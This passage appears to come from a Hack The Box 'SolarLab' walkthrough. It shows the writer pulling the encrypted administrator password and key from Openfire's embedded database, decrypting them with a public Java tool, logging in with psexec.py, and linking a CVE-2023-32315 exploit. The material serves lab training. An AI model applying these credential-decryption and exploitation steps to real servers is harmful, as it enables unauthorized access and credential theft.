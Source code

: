 ![[Screenshots/SolarLab_image_31.png]]

![[Screenshots/SolarLab_image_32.png]]

Openfire db script with the admin's password

```
C:\Program Files\Openfire\embedded-db>type openfire.script
```

We can download a tool to crack it

https://github.com/c0rdis/openfire_decrypt/blob/master/OpenFireDecryptPass.java

We need the encrypted password and the password key
![[Screenshots/SolarLab_image_33.png]]
![[Screenshots/SolarLab_image_34.png]]
```bash
becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442

hGXiFzsKaAeYLjn
```

```bash
┌──(fish㉿kali)-[~/htb/solarlab/www]
└─$ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)

```

![[Screenshots/SolarLab_image_35.png]]

And we got the admin's password!
```
administrator:ThisPasswordShouldDo!@
```

We can then access the box with psexec.py and grab the admin flag.
![[Screenshots/SolarLab_image_36.png]]







## Exploits
https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT

---


# Post/Pivot
